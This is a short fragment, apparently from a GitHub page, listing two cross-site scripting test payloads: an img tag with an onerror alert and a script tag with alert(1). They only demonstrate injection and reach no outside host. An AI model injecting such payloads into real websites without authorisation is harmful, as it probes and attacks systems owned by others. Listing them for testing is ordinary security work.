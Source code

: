 ### List of XSS Payloads:

```
<img src=x onerror=alert(document.domain)>
<script>alert(1);</script>
```
